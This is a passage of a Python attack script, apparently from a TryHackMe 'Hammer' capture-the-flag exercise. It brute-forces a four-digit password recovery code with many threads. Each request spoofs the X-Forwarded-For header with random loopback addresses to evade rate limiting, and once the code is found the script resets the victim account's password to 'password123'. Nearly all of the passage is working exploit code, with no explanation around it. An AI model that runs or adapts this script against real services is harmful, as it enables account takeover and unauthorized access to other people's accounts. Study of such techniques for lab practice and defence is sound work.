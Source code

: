 ```python
        code_str = f"{code:04d}"
        try:
            r = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},
                headers={
                    "X-Forwarded-For": f"127.0.{str(random.randint(0, 255))}.{str(random.randint(0, 255))}"
                },
                allow_redirects=False,
            )
            if stop_flag.is_set():
                return
            elif r.status_code == 302:
                stop_flag.set()
                print("[-] Timeout reached. Try again.")
                return
            else:
                if "Invalid or expired recovery code!" not in r.text and "new_password" in r.text:
                    stop_flag.set()
                    print(f"[+] Found the recovery code: {code_str}")
                    print("[+] Sending the new password request.")
                    new_password = "password123"
                    session.post(
                        url,
                        data={
                            "new_password": new_password,
                            "confirm_password": new_password,
                        },
                        headers={
                            "X-Forwarded-For": f"127.0.{str(random.randint(0, 255))}.{str(random.randint(0, 255))}"
                        },
                    )
                    print(f"[+] Password is set to {new_password}")
                    return
        except Exception as e:
            # print(e)
            pass


def main():
    session = requests.Session()
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    print("[+] Starting the code brute-force.")
    code_range = 10000
    step = code_range // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()


if __name__ == "__main__":
    main()


```